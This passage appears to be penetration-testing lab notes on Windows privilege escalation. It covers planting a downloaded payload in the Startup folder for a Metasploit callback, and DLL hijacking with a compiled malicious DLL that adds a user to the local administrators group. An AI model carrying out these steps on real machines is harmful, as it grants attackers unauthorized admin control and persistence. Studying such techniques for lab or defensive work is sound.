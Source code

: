 Send the exploit to the target machine.

> Again, we can open a FTP or web server with python in kali
Grab with **certutils** or just open in the browser


Save the exploit in the startup folder:
```bash
C:\ProgramData\Microsoft\Windows\Start Menu\Programs\Startup
```

> Boot the machine again & just waits with a msfconsole listener to receive the connection







# Escalation Path: DLL Hijacking



## DLL Hijacking Overview

Dll = dynamic link library 

we are looking For a dll that is trying to load and has the name not found;

- if we have a writable directory For that dll then
- we can hijack that dll by sending a malicious file in that path.

### Escalation
Run process monitor:
```bash
include to filter > Result is NAME NOT FOUND & Path ends with .dll

sc stop dllsvc
sc start dllsvc
```

grab the windows_dll.c file and edit:
```bash
System("cmd.exe /k net localgroup administrators userBatman /add");
```

Compile it:
```bash
x86_64-w64-mingw32-gcc windows_dll.c -shared -o hijackme.dll
```

Send to the target:
```bash
# python server > grab the file
# save the file in a directory you have write access : like C:\Temp\

sc stop dllsvc
sc start dllsvc
```

